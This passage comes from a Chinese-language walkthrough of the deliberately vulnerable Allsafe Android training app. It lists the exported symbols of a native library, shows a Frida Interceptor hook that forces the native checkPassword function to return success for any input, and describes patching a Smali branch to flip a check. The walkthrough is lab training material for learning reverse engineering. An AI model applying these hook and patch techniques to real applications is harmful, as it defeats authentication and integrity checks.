    "_ZNSt13runtime_errorC2EPKc",
    "_ZNSt6__ndk1plIcNS_11char_traitsIcEENS_9allocatorIcEEEENS_12basic_stringIT_T0_T1_EEPKS6_RKS9_",
    "_ZTVSt12out_of_range",
    "_ZTIPw",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEC2IDnEEPKc",
    "_ZdaPvSt11align_val_tRKSt9nothrow_t",
    "_ZNSt6__ndk110to_wstringEd",
    "_ZTIPx",
    "_ZTIf",
    "_ZNSt20bad_array_new_lengthC1Ev",
    "__gxx_personality_v0",
    "_ZTIPy",
    "_ZTIg",
    "_ZNSt11logic_errorC2ERKS_",
    "_ZNSt13runtime_errorC2ERKNSt6__ndk112basic_stringIcNS0_11char_traitsIcEENS0_9allocatorIcEEEE",
    "_ZNSt6__ndk110to_wstringEf",
    "__cxa_uncaught_exception",
    "_ZTIh",
    "_ZTIPKs",
    "_ZTSSt13bad_exception",
    "_ZTVSt11range_error",
    "_ZNSt15underflow_errorD2Ev",
    "_ZTVSt9type_info",
    "_ZdlPvmSt11align_val_t",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE9__grow_byEmmmmmm",
    "_ZNSt6__ndk110to_wstringEg",
    "_ZTIPKt",
    "_ZTIi",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEaSEw",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE5eraseEmm",
    "_ZTIj",
    "_ZNSt6__ndk15stoldERKNS_12basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEEPm",
    "_ZNSt6__ndk110to_wstringEi",
    "_ZTIPKv",
    "_ZNSt9exceptionD0Ev",
    "_ZNSt9bad_allocD0Ev",
    "_ZNSt11range_errorD0Ev",
    "_ZNSt13runtime_errorD1Ev",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEED1Ev",
    "_ZdaPv",
    "_ZNSt6__ndk110to_wstringEj",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEC1ERKS5_mmRKS4_",
    "_ZTIPKw",
    "_ZTIl",
    "_ZNSt12out_of_rangeD0Ev",
    "_ZNSt11logic_erroraSERKS_",
    "_ZTIm",
    "_ZTIPKx",
    "_ZNSt16invalid_argumentD0Ev",
    "_ZTSSt14overflow_error",
    "_ZNSt9type_infoD0Ev",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6assignEPKc",
    "_ZNSt6__ndk110to_wstringEl",
    "__cxa_get_globals",
    "_ZTVN10__cxxabiv119__pointer_type_infoE",
    "_ZTIPKy",
    "_ZTIn",
    "_ZNSt20bad_array_new_lengthD0Ev",
    "_ZNKSt10bad_typeid4whatEv",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6appendEPKw",
    "_ZNSt6__ndk110to_wstringEm",
    "_ZTIo",
    "_ZTVN10__cxxabiv121__vmi_class_type_infoE",
    "_ZTSSt9exception",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEC2ERKS5_",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6insertEmPKcm",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEC1ERKS5_RKS4_",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEC1ERKS5_RKS4_",
    "_ZNKSt9exception4whatEv",
    "_ZNSt8bad_castC1Ev",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEC1ERKS5_",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE9push_backEc",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE4findEPKwmm",
    "_ZTIN10__cxxabiv117__array_type_infoE",
    "_ZTVSt15underflow_error",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE5rfindEPKcmm",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE7compareEPKc",
    "_ZNSt6__ndk16stoullERKNS_12basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEEPmi",
    "_ZTVSt12domain_error",
    "_ZNSt10bad_typeidC2Ev",
    "_ZTVN10__cxxabiv116__shim_type_infoE",
    "_ZTIs",
    "Java_infosecadventures_allsafe_challenges_NativeLibrary_checkPassword",
    "_ZSt7nothrow",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE21__grow_by_and_replaceEmmmmmmPKc",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6__initEPKwm",
    "_ZTIt",
    "_ZdlPvSt11align_val_tRKSt9nothrow_t",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE4findEPKcmm",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6__initEPKwmm",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE9push_backEw",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE7compareEmmPKc",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE7compareEPKw",
    "_ZTIv",
    "_ZTIN10__cxxabiv121__vmi_class_type_infoE",
    "_ZTSSt20bad_array_new_length",
    "_ZTISt16invalid_argument",
    "_ZTIw",
    "_ZTSPKDh",
    "__cxa_new_handler",
    "_ZTIx",
    "_ZTSPKDi",
    "_ZTVN10__cxxabiv117__pbase_type_infoE",
    "_ZNSt8bad_castD0Ev",
    "_ZNSt6__ndk16__itoa8__u32toaEjPc",
    "_ZTISt9bad_alloc",
    "_ZTIy",
    "_ZTSN10__cxxabiv117__array_type_infoE",
    "_ZNSt6__ndk117__compressed_pairINS_12basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE5__repES5_EC2INS_18__default_init_tagESA_EEOT_OT0_",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6__initEPKcm",
    "__cxa_end_catch",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6insertEmPKwm",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE7compareEmmPKw",
    "_ZNSt6__ndk110to_wstringEx",
    "_ZSt10unexpectedv",
    "_ZTIPDh",
    "_ZNSt10bad_typeidD1Ev",
    "_ZNSt6__ndk110to_wstringEy",
    "_ZTIPDi",
    "_ZNSt11logic_errorD1Ev",
    "_ZSt13get_terminatev",
    "_ZTIN10__cxxabiv116__shim_type_infoE",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6appendEmc",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6insertENS_11__wrap_iterIPKcEEc",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6__initEmw",
    "_ZTVN10__cxxabiv117__class_type_infoE",
    "_ZTSPKDn",
    "_ZdlPvSt11align_val_t",
    "_ZNKSt6__ndk121__basic_string_commonILb1EE20__throw_out_of_rangeEv",
    "_ZNSt12domain_errorD1Ev",
    "_ZdlPv",
    "_ZTISt9type_info",
    "_ZNSt6__ndk15stollERKNS_12basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEEPmi",
    "_ZTVN10__cxxabiv120__si_class_type_infoE",
    "_ZTIPDn",
    "_ZTSN10__cxxabiv116__enum_type_infoE",
    "_ZTISt8bad_cast",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6insertENS_11__wrap_iterIPKwEEw",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE17find_first_not_ofEPKwmm",
    "_ZTSPKDs",
    "_ZTVSt11logic_error",
    "__cxa_rethrow_primary_exception",
    "_ZNSt14overflow_errorD0Ev",
    "_ZTSSt16invalid_argument",
    "_ZTISt10bad_typeid",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEC2ERKS5_",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEC1ERKS5_mmRKS4_",
    "_ZTSPKDu",
    "_ZNSt13bad_exceptionD0Ev",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEC2ERKS5_RKS4_",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEC2ERKS5_RKS4_",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEC1ERKS5_",
    "_ZTIPDs",
    "_ZTISt12out_of_range",
    "_ZTIPDu",
    "_ZNSt6__ndk14stofERKNS_12basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEEPm",
    "_ZTSPKa",
    "_ZNSt15underflow_errorD0Ev",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6insertEmmw",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6insertEmRKS5_mm",
    "_ZNSt6__ndk14stolERKNS_12basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEEPmi",
    "_ZTSPKb",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6appendEPKwm",
    "_ZNSt6__ndk14stoiERKNS_12basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEEPmi",
    "_ZTISt13bad_exception",
    "_ZTSPKc",
    "_ZTSSt12out_of_range",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE7reserveEm",
    "__cxa_get_globals_fast",
    "_ZTSPKd",
    "_ZTISt11range_error",
    "_ZnwmRKSt9nothrow_t",
    "_ZTVSt12length_error",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6insertEmRKS5_mm",
    "_ZTSPKf",
    "__emutls_get_address",
    "_ZTSPKg",
    "_ZnamSt11align_val_tRKSt9nothrow_t",
    "_ZNKSt6__ndk121__basic_string_commonILb1EE20__throw_length_errorEv",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE7replaceEmmPKcm",
    "__cxa_terminate_handler",
    "_ZTSPKh",
    "_ZnwmSt11align_val_t",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6appendEPKcm",
    "_ZTSPKi",
    "_ZTSPKj",
    "_ZTVN10__cxxabiv116__enum_type_infoE",
    "_ZNSt11logic_errorC2ERKNSt6__ndk112basic_stringIcNS0_11char_traitsIcEENS0_9allocatorIcEEEE",
    "_ZTVSt13bad_exception",
    "_ZTSPKl",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE2atEm",
    "_ZNSt6__ndk14stodERKNS_12basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEEPm",
    "_ZTSPKm",
    "_ZNSt9bad_allocC2Ev",
    "_ZNSt13runtime_errorC1ERKS_",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEC2ERKS5_mmRKS4_",
    "_ZTIN10__cxxabiv129__pointer_to_member_type_infoE",
    "_ZTSPKn",
    "_ZNSt12length_errorD2Ev",
    "_ZTVSt8bad_cast",
    "_ZTSPKo",
    "_ZN7_JNIEnv14GetArrayLengthEP7_jarray",
    "_ZNSt11logic_errorC2EPKc",
    "_ZNSt20bad_array_new_lengthC2Ev",
    "_ZTVSt20bad_array_new_length",
    "_ZTISt12domain_error",
    "_ZTSSt12domain_error",
    "_ZTISt14overflow_error",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6assignEmc",
    "__cxa_get_exception_ptr",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE7reserveEm",
    "_ZTSSt9bad_alloc",
    "_ZNKSt11logic_error4whatEv",
    "_ZTSSt11range_error",
    "_ZTSPKs",
    "_ZTIN10__cxxabiv116__enum_type_infoE",
    "_ZNSt6__ndk19to_stringEd",
    "_ZTSPKt",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE7compareEmmRKS5_mm",
    "_ZNSt9bad_allocD1Ev",
    "_ZNSt9exceptionD1Ev",
    "_ZNSt13runtime_errorD2Ev",
    "_ZNSt11range_errorD1Ev",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEED2Ev",
    "_ZNSt12out_of_rangeD1Ev",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE2atEm",
    "_ZNSt6__ndk19to_stringEf",
    "_ZTSPKv",
    "_ZNKSt13bad_exception4whatEv",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEaSEc",
    "_ZNSt16invalid_argumentD1Ev",
    "_ZNSt6__ndk19to_stringEg",
    "_ZTIN10__cxxabiv123__fundamental_type_infoE",
    "_ZTSPKw",
    "_ZNSt9type_infoD1Ev",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6appendEmw",
    "_ZNSt6__ndk15stoulERKNS_12basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEEPmi",
    "_ZTSPKx",
    "_ZTIPKDh",
    "_ZNSt20bad_array_new_lengthD1Ev",
    "_ZTSSt9type_info",
    "_ZdlPvRKSt9nothrow_t",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE7replaceEmmRKS5_mm",
    "_ZNSt6__ndk19to_stringEi",
    "_ZTSPKy",
    "_ZTIPKDi",
    "_ZNSt6__ndk19to_stringEj",
    "__cxa_pure_virtual",
    "_ZTVN10__cxxabiv120__function_type_infoE",
    "_ZNSt8bad_castC2Ev",
    "_ZSt14set_unexpectedPFvvE",
    "_ZTSN10__cxxabiv121__vmi_class_type_infoE",
    "_ZNSt6__ndk16__itoa8__u64toaEmPc",
    "_ZNSt6__ndk19to_stringEl",
    "__dynamic_cast",
    "_ZNSt6__ndk19to_stringEm",
    "_Z9checkPassP7_JNIEnvP8_jstring",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6appendEPKc",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6resizeEmc",
    "_ZNSt6__ndk15stoldERKNS_12basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEEPm",
    "_ZTIPKDn",
    "_ZnamSt11align_val_t",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE4copyEPwmm",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEED1Ev",
    "_ZTISt11logic_error",
    "_ZN7_JNIEnv12NewStringUTFEPKc",
    "_ZTSN10__cxxabiv119__pointer_type_infoE",
    "_ZTSa",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE5rfindEPKwmm",
    "_ZTSb",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE16find_last_not_ofEPKwmm",
    "__cxa_uncaught_exceptions",
    "_ZTSN10__cxxabiv129__pointer_to_member_type_infoE",
    "_ZTSc",
    "_ZNSt8bad_castD1Ev",
    "_ZNSt13runtime_errorC1EPKc",
    "_ZTSd",
    "_ZTIPKDs",
    "_Znwm",
    "_ZdaPvRKSt9nothrow_t",
    "_ZNSt11logic_errorC1ERKS_",
    "_ZNSt10bad_typeidD2Ev",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE7replaceEmmmc",
    "_ZTSPDh",
    "_ZTSf",
    "_ZTIPKDu",
    "_ZNSt11logic_errorD2Ev",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEC2ERKS5_mmRKS4_",
    "_ZTIN10__cxxabiv117__pbase_type_infoE",
    "_ZTSg",
    "_ZTSPDi",
    "_ZTSh",
    "_ZTSSt13runtime_error",
    "_ZNSt13runtime_errorC1ERKNSt6__ndk112basic_stringIcNS0_11char_traitsIcEENS0_9allocatorIcEEEE",
    "_ZNSt6__ndk19to_stringEx",
    "_ZTSi",
    "_ZNSt12domain_errorD2Ev",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE7replaceEmmPKc",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE2atEm",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE13find_first_ofEPKwmm",
    "_ZNSt6__ndk19to_stringEy",
    "_ZTSj",
    "_ZNKSt9bad_alloc4whatEv",
    "_ZTVSt10bad_typeid",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6__initEPKcmm",
    "_ZTISt12length_error",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE7replaceEmmPKwm",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6assignEPKwm",
    "__cxa_free_dependent_exception",
    "_ZTIN10__cxxabiv117__class_type_infoE",
    "_ZTSPDn",
    "_ZTSl",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE7compareEmmPKcm",
    "__cxa_current_exception_type",
    "_ZTSPa",
    "_ZTSm",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6assignERKS5_mm",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE7replaceEmmPKw",
    "_ZTSPb",
    "_ZTSn",
    "_ZTSDh",
    "_ZTISt20bad_array_new_length",
    "_ZTSSt11logic_error",
    "_ZNSt14overflow_errorD1Ev",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE16find_last_not_ofEPKcmm",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE2atEm",
    "_ZNSt13bad_exceptionD1Ev",
    "_ZTSN10__cxxabiv117__pbase_type_infoE",
    "_ZTSPc",
    "_ZTSo",
    "_ZTSDi",
    "_ZTSN10__cxxabiv120__si_class_type_infoE",
    "_ZNKSt13runtime_error4whatEv",
    "_ZNSt12length_errorD0Ev",
    "_ZTSSt12length_error",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6assignEmw",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6assignEPKw",
    "_ZTSPd",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6assignEPKcm",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE4findEcm",
    "_ZTSPDs",
    "_ZTIN10__cxxabiv120__si_class_type_infoE",
    "_ZTSPf",
    "_ZnwmSt11align_val_tRKSt9nothrow_t",
    "_ZTSs",
    "_ZTSPg",
    "_ZTSPDu",
    "_ZNSt15underflow_errorD1Ev",
    "_ZTSSt10bad_typeid",
    "_ZNSt6__ndk16stoullERKNS_12basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEEPmi",
    "_ZTSDn",
    "_ZTSPh",
    "_ZTSt",
    "_ZTVSt9exception",
    "__cxa_current_primary_exception",
    "_ZTSPi",
    "_ZTSv",
    "_ZTSPj",
    "_ZNSt13runtime_errorD0Ev",
    "_ZdaPvSt11align_val_t",
    "_ZTSw",
    "_ZTSN10__cxxabiv117__class_type_infoE",
    "_ZTSPl",
    "_ZTSx",
    "_ZTVN10__cxxabiv117__array_type_infoE",
    "_ZTISt15underflow_error",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6insertEmmc",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEaSERKS5_",
    "_ZTSPm",
    "_ZTSy",
    "_ZTSDs",
    "_ZnamRKSt9nothrow_t",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE7replaceEmmmw",
    "__cxa_allocate_dependent_exception",
    "_ZTSPn",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE12find_last_ofEPKwmm",
    "__cxa_increment_exception_refcount",
    "_ZTSPo",
    "_ZTSDu",
    "_ZN7_JNIEnv20GetByteArrayElementsEP11_jbyteArrayPh",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE13find_first_ofEPKcmm",
    "_ZNSt6__ndk14stofERKNS_12basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEEPm",
    "__cxa_decrement_exception_refcount",
    "_ZNSt10bad_typeidC1Ev",
    "_ZTVN10__cxxabiv123__fundamental_type_infoE",
    "_ZTSPs",
    "_ZSt9terminatev",
    "_ZdlPvm",
    "_ZTSN10__cxxabiv123__fundamental_type_infoE",
    "_ZTSPt",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6appendERKS5_mm",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6resizeEmw",
    "__cxa_allocate_exception",
    "_ZNSt6__ndk15stollERKNS_12basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEEPmi",
    "_ZTSPv",
    "_ZTVSt14overflow_error"
]
```

找check_password的地址一会hook，让我们无论输入什么，都能通过密码验证

```text
[Android Emulator 5554::Allsafe ]-> Process.getModuleByName("libnative_library.so").getExportByName("Java_infosecadvent
ures_allsafe_challenges_NativeLibrary_checkPassword")
"0x7638795a4430"
```

现在把地址赋给一个变量，一会使用 Interceptor 来钩住该函数，并劫持其实现，使其对提供的任何密码都返回 true。[https://frida.re/docs/javascript-api/#interceptor](https://frida.re/docs/javascript-api/#interceptor)

```text
[Android Emulator 5554::Allsafe ]-> var addr = Process.getModuleByName("libnative_library.so").getExportByName("Java_in
fosecadventures_allsafe_challenges_NativeLibrary_checkPassword");
[Android Emulator 5554::Allsafe ]-> console.log("[addr] " + addr);
[addr] 0x7638795a4430
[Android Emulator 5554::Allsafe ]-> Interceptor.attach(addr, {
  onEnter(args) {
    console.log("[*] checkPassword called");
  },
  onLeave(retval) {
    console.log("[*] original retval =", retval.toInt32());
    retval.replace(1);
    console.log("[+] forced success");
  }
});
{}
[Android Emulator 5554::Allsafe ]-> [*] checkPassword called
[*] original retval = 0
[+] forced success
```

随便输入都能通过验证，当然你也可以用apktool拿到so文件，然后IDA分析，发现密码就静态编译在里面，这里只是用frida来展示hook

<!-- 这是一张图片，ocr 内容为：THERE'S A NATIVE LIBRARY COMPILED WITH THE APPLICATION THAT IS USED TO VALIDATE THE PASSU HE PASSWORD BELOW. BY REVERSE ENGINEERING THE THE PASSWORD CHECK. ENTER PASSWORD I [CHECK] 确定 THAT'S IT!EXCELLENT WORK! -->



# <font style="color:rgb(36, 36, 36);">Smali Patch</font>
这一关就是改smail代码，实现点击输出Firewall is now activated, good job!

<!-- 这是一张图片，ocr 内容为：* JADX INFO: ACCESS MODIFIERS CHANGED FROM: PRIVATE */ PUBLIC /大 SYNTHETIC */ VOID LAMBDASONCREATEVIEWSO(FIREWALL FIREWALL, VIEW V) IF (FIREWALL.EQUALS(FIREWALL.ACTIVE)){ SNACKUTIL.INSTANCE.SINDLEHESSAGE(REQUIREACTIVITYO, "FIREWALL IS NOW ACTIVATED, 9OOD, 900D JOB: TOAST.MAKETEXT(REQUIRECONTEXTO,"G00D J08!",1).SHOWO; ELSET SNACKUTIL.INSTAHCE.SIMPLEKESSAGE(REQUIREACTIVITYO, "FIREWALL IS DOWN, TRY HARDER!"); -->


这里我直接用MT管理器打开演示一下

在class4.dex里

<!-- 这是一张图片，ocr 内容为：MOVE-RESULT VO IF-EQZ VO, :COND_22 .LINE 24 SGET OBJECT VO, UNFOSECADVENTURES/ALLSAFE/UTILS/SNACKUTIL: INVOKEVITUAL ( (OO), UNFOSECADVES/ALLSAFE/CHALENGES/SMAIPATCH;>REQUIEACTIVIYOLANDROIDX FREGMENTACTIVI MOVE-RESULT-OBJECT V1 CONST-STRING V2,"FIREWALL IS NOW ACTIVATED,GOOD JOB! LUD83D\UDC4D" -->


修改为

<!-- 这是一张图片，ocr 内容为：IF-NEZ VO, COND_22 .LINE 24 SGER OBJECT VO,UNFOSECADVENTURES/ALLSAFE/UTIS/SNACKUTIL;>INSTANCELINFOSECADVENTURES/ALLSAFE/UTIS/SNAC INVOKEVIRTUA[ 1PO; UNFOSECADVENTURESSFERCHALENGES/SNALPATCH--REQUREQUREACIVITYOLDX/TREGNENT/FRAGNTACI MOVE-RESULT-OBJECT V1 -->


成功

<!-- 这是一张图片，ocr 内容为：[CHECK FIREWALL] GOOD JOB! 确定 FIREWALL IS NOW JOB! -->


